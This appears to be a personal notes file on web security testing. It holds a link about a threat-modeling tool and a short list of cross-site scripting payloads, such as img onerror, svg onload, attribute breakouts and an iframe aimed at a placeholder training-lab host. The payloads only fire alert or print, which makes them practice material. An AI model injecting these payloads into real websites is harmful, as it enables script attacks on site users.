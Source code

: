 # Notes
Threatspec  -- https://onehack.us/t/threatspec-continuous-threat-modeling-through-code/174377


"><svg onload=alert(1)>
<img src=1 onerror=alert(1)>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
"onmouseover="alert(1)
javascript:alert(1)
'-alert(1)-'
 "></select><img%20src=1%20onerror=alert(1)>
